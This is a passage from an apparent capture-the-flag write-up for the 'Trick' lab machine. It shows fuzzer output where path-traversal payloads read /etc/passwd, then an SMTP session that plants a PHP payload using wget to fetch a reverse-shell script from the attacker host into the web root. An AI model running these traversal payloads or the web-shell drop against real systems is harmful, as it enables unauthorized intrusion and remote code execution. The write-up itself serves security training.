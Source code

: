 ```shell
000000341:   200        41 L     68 W       2351 Ch     "....//....//....//....//....//....//....//....//etc/passwd"                                                                                                                
000000332:   200        41 L     68 W       2351 Ch     "....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd"                                                          
000000329:   200        41 L     68 W       2351 Ch     "....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd"                                        
000000331:   200        41 L     68 W       2351 Ch     "....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd"                                                    
000000342:   200        41 L     68 W       2351 Ch     "....//....//....//....//....//....//....//etc/passwd"                                                                                                                      
000000343:   200        41 L     68 W       2351 Ch     "....//....//....//....//....//....//etc/passwd"                                                                                                                            
000000345:   200        41 L     68 W       2351 Ch     "....//....//....//....//etc/passwd"                                                                                                                                        
000000344:   200        41 L     68 W       2351 Ch     "....//....//....//....//....//etc/passwd"                                                                                                                                  
000000346:   200        41 L     68 W       2351 Ch     "....//....//....//etc/passwd"                                                                                                                                              

Total time: 4.678635
Processed Requests: 920
Filtered Requests: 900
Requests/sec.: 196.6385
```
Hence, we can include any form of file.  

## User
Once we have discovered the LFI, we exfiltrate `/etc/passwd` and see system users, once we have system users we can drop an email using the open smtp service, containing a payload, write the payload in a public www directory and then execute the payload to obtain a reverse shell, similarly to what we did in [Beep](Beep.md).  
```
[root@kali Trick ]$ telnet $TARGET 25
Trying 10.10.11.166...
Connected to 10.10.11.166.
Escape character is '^]'.
HELO b0d.htb
220 debian.localdomain ESMTP Postfix (Debian/GNU)
250 debian.localdomain
VRFY michael@localhost
252 2.0.0 michael@localhost
MAIL FROM:<b0d@haha.com>
250 2.1.0 Ok
RCPT TO:<michael@localhost>     
250 2.1.5 Ok
DATA
354 End data with <CR><LF>.<CR><LF>
Subject: you got pwned
<?php system("wget http://10.10.14.9/php-reverse-shell.php -O /var/www/market/shell.php");?>
.
250 2.0.0 Ok: queued as 09B944099C
QUIT
221 2.0.0 Bye
```
